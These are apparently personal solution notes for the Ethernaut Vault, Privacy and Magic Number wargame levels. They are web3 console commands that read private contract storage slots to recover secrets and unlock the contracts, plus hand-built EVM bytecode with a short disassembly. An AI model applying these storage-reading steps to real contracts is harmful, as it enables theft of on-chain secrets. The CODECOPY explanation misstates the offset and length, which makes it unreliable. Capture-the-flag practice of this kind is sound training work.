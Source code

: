 # Ethernaut-8 #  
### Vault ###  
await web3.eth.getStorageAt(contract.address,0);  
'0x0000000000000000000000000000000000000000000000000000000000000001'  
await web3.eth.getStorageAt(contract.address,1);  
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'  
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29');  

  
  
# Ethernaut-12 #  
### Privacy ###  
await web3.eth.getStorageAt(contract.address,5);  
'0xca03c07d7d4db33332f667b60c547f144c461340eb1823da7ef202949b67e677'  
await contract.unlock('0xca03c07d7d4db33332f667b60c547f14');  




# Ethernaut-18 #    
### Magic Number ###
var account = "0xDEe8dbD5ddBcAcf2a7C850B6496d18C7F22f5bDe";    
var bytecode = "0x600a600c600039600a6000f3602A60005260206000F3";//602A60005260206000F3 - contract code  
await web3.eth.sendTransaction({ from: account, data: bytecode }, function(err,res){console.log(res)});  
  
await web3.eth.call({  
    to: '0x7b2c89730353578d371f10b9b92082108529d9f6',   
    data: '0x650500c1'  
})  
    
await contract.setSolver('0x7b2c89730353578d371f10b9b92082108529d9f6');    
  
0x600a600c600039600a6000f3 602A60005260206000F3  
[00]	PUSH1	0a  
[02]	PUSH1	0c  
[04]	PUSH1	00  
[06]	CODECOPY	  
[07]	PUSH1	0a  
[09]	PUSH1	00  
[0b]	RETURN	  

CODECOPY) takes the top 3 values from the stack (source offset, target offset, and size) and copies the specified number of bytes (size) of code data from the source offset to the target offset in memory. In this case, it will copy 12 bytes of code data starting from position 10 to position 0 in memory - 602A60005260206000F3  

[00]	PUSH1	2A  
[02]	PUSH1	00  
[04]	MSTORE	  
[05]	PUSH1	20  
[07]	PUSH1	00  
[09]	RETURN	  

simply returns 32 byte 2A  
